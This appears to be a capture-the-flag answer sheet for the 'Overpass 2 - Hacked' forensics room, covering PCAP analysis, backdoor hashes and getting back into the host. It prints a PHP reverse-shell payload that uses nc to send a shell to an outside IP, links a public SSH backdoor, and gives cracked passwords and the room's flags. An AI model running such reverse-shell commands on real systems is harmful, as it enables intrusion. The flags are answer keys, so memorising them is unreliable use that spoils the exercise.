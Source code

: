 # Overpass 2 - Hacked
Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

## Task 1 - *Forensics - Analyse the PCAP*

**Q:** What was the URL of the page they used to upload a reverse shell? \
**Mindset:** \
**Answer:** `/development/` \
**Explaination:**

**Q:** What payload did the attacker use to gain access? \
**Mindset:** \
**Answer:** `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`\
**Explaination:**

**Q:** What password did the attacker use to privesc? \
**Mindset:** \
**Answer:** `whenevernoteartinstant` \
**Explaination:**

**Q:** How did the attacker establish persistence? \
**Mindset:** \
**Answer:** `https://github.com/NinjaJc01/ssh-backdoor` \
**Explaination:**

**Q:** Using the fasttrack wordlist, how many of the system passwords were crackable? \
**Mindset:** \
**Answer:** `4` \
**Explaination:**

## Task 2 - *Research - Analyse the code*

**Q:** What's the default hash for the backdoor? \
**Mindset:** \
**Answer:** `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` \
**Explaination:**

**Q:** What's the hardcoded salt for the backdoor? \
**Mindset:** \
**Answer:** `1c362db832f3f864c8c2fe05f2002a05` \
**Explaination:**

**Q:** What was the hash that the attacker used? - go back to the PCAP for this! \
**Mindset:** \
**Answer:** `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` \
**Explaination:**

**Q:** Crack the hash using rockyou and a cracking tool of your choice. What's the password? \
**Mindset:** \
**Answer:** `november16` \
**Explaination:**

## Task 3 - *Attack - Get back in!*

**Q:** The attacker defaced the website. What message did they leave as a heading? \
**Mindset:** \
**Answer:** `H4ck3d by CooctusClan` \
**Explaination:**

### Using the information you've found previously, hack your way back in!

**Q:** What's the user flag? \
**Mindset:** \
**Answer:** `thm{d119b4fa8c497ddb0525f7ad200e6567}` \
**Explaination:**

**Q:** What's the root flag? \
**Mindset:** \
**Answer:** `thm{d53b2684f169360bb9606c333873144d}` \
**Explaination:**
